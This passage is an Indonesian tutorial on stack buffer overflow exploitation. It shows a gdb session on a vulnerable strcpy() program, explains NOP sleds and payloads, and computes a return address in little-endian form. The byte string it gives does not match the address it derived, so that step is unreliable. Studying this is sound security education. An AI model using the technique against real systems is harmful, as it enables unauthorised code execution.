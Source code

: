 ```
7               strcpy(buffer, argv[1]);
8
9               return 0;
10      }
(gdb) b 7
Breakpoint 1 at 0x80483cd: file bof.c, line 7.
(gdb)
```
perlu diperhatikan kita perlu menggunakan dimana fungsi vulnerable strcpy() sebagai breakpoint untuk mengetahui dimana keberadaan register ESP.

```
(gdb) run test to see where esp is
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/bof test to see where esp is

Breakpoint 1, main (argc=7, argv=0xbffff434) at bof.c:7
7               strcpy(buffer, argv[1]);
(gdb) i r esp
esp            0xbffff210       0xbffff210
(gdb)

esp terletak pada address 0xbffff210
```
### Attack vector
ok sekarang bagian pengexploitasinya. kita butuh membuat attack vector untuk pengexploitasiannya.
sekarang yang perlu dimengerti apa itu NOP , NOPSLED, PAYLOAD.

### NOP
pertama saya akan menjelaskan apa itu NOP.
NOP dalam bahasa assembly adalah no-op atau no operation sampai instruksi selanjutnya tereksekusi.
dengan kata lain NOP adalah bagian yang dilewati sampai instruksi yang benar2 tereksekusi.
disini kita pakai NOP untuk melancarkan attack sampai bertemu instruksi yang kita inginkan.
NOP dalam bentuk opcode adalah "90" atau "\x90" dalam bentuk shellcode.

### NOPSLED
kedua saya akan menjelaskan apa itu NOPSLED. NOPSLED adalah serentetan yang terdiri dari NOP sampai beberapa bytes.
contoh seperti `perl -e 'print "\x90" x 40'`. maka kita akan mendapatkan "x90" sampai 40 bytes (40 kali).

### PAYLOAD
ketiga saya menjelaskan apa itu PAYLOAD. PAYLOAD adalah serentetan kode yang akan kita eksekusikan.
shellcode adalah sebagai PAYLOAD nya

selanjutnya kita akan memeriksa dimana NOPSLED akan di tempatkan.
kita ulangi address tersebut sampai register EIP teroverwrite.
dan akhirnya memaksa program untuk melanjutkan eksekusi pada alamat NOP.
lalu kita ambil alamat pada register ESP dan kurangi register tersebut. sebut saja bilangan itu 300.
```
root@bt:~# printf "%x\n" $((0xbffff210-300))
bffff0e4
root@bt:~#
```
alamat tersebut akan menempatkan kita pada NOPSLED.
sekarang yang kita butuhkan adalah mengkonversi alamat tersebut pada bentuk little endian.
-> e4f0ffbf
lalu kita jadikan ke bentuk shellcode.
```
-> \x04\xf1\xff\xbf
```
sekarang saatnya kita menghitung berapa kali alamat tersebut harus di ulang.